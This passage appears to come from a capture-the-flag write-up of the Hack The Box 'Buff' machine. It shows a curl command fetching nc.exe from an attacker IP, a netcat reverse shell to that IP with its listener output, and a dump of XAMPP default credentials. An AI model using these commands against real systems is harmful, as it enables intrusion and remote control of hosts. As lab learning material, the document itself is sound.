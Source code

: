 The shell wont let me pry around easily so I upload nc.exe and get a better shell:

```
C:\xampp\htdocs\gym\upload> curl "http://10.10.14.51/nc.exe" --output nc.exe
�PNG
▒

C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.51 1337 -e cmd.exe

```

Listener:

```
root@kali:/home/kali/htb/Buff# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.25.107 49796
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>cd ..
cd ..

C:\xampp\htdocs\gym>
```

I find interesting stuff immediately:

```
C:\xampp>type passwords.txt
type passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     




```